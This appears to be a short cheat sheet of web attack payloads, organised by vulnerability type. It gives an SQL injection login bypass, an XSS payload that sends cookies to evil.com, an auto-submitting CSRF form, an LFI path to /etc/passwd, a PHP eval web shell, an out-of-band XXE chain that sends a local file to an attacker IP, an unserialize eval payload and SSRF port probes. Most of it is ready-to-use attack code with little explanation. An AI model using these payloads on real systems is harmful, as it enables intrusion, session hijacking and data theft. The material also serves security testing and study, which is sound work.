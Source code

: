 
# Introduction

Refer to OWASP Test Guide to understand each type of web vulnerability.
This chapter gives few payloads about the basic attack.

## SQL Injection

### bypass login example

Login: admin

Password: ' or 1-- -'

## XSS

### Send cookie to server

```html
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

## CSRF

### Evil form example

Tip: Burpsuite Pro is able to help generation it.
```html
<!DOCTYPE html>
<html>
  <head>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="http://localhost/index.php" method="POST">
      <input type="hidden" name="info&#91;username&#93;" value="hacker" />
      <input type="hidden" name="info&#91;email&#93;" value="xxx&#64;xxx&#46;xxx" />
      <input type="hidden" name="modelids&#91;&#93;" value="xxx" />
    </form>
  </body>
</html>
```

## LFI

### %00 cut example
```
?file=../../../../../../../../../etc/passwd%00
```

## File Upload

### php shellcode
```php
<?php @eval($_POST['cmd']);?>
```

## command execute

### dangerous commands
```
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......
```

## XXE

refer to 

https://blog.csdn.net/u011721501/article/details/43775691

【1.php】

```php
<?php
file_put_contents("1.txt", $_GET['file']) ;
?>
```


【test.php】

```php
<?php
$xml=<<<EOF
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///C:/passwd.txt">
<!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">
%remote;
%all;
	%send;
]>
EOF;
$data = simplexml_load_string($xml) ;
echo "<pre>" ;
print_r($data) ;
?>
```

【evil.xml】

```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```

## unserialize

```php
<?php
class Example {
  var $var = "";
  function __destruct() {
    eval($this->$var);
  }
}
unserialize($_GET["saved_code"]);
?>
```
payload
```
http://localhost/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## SSRF

```
showimage.php?file=http://127.0.0.1:22
showimage.php?file=http://127.0.0.1:25
```
The above requests produce an error, but also include a port banner which indicates that a server is running on the specified port, and gives away information on the server running on the web server.

The following is the HTTP response body obtained for port 25 showing that a Postfix mail server is running on the same machine.
```
Warning: fopen(HTTP://127.0.0.1:25): failed to open stream:
HTTP request failed! 220 rs202995.rs.hosteurope.de ESMTP Postfix (Ubuntu)
in /hj/var/www/showimage.php on line 7
```

## web cache poison

refer to 

https://portswigger.net/blog/practical-web-cache-poisoning
https://lud1161.github.io/posts/hacker-movie-club-csaw-quals-2018/
https://hackerone.com/reports/492841

## CSP bypass

refer to 

https://paper.seebug.org/423/

## php magic number

equals-equals (==) operator. It’s caused a lot of issues. 
###
```php
<?php
if (hash('md5','240610708',false) == '0') {
  print "Matched.n";
}
if ('0e462097431906509019562988736854' == '0') {
  print "Matched.n";
}
?>
```

## information leakage

Git

SVN

spring

view source code

backup files
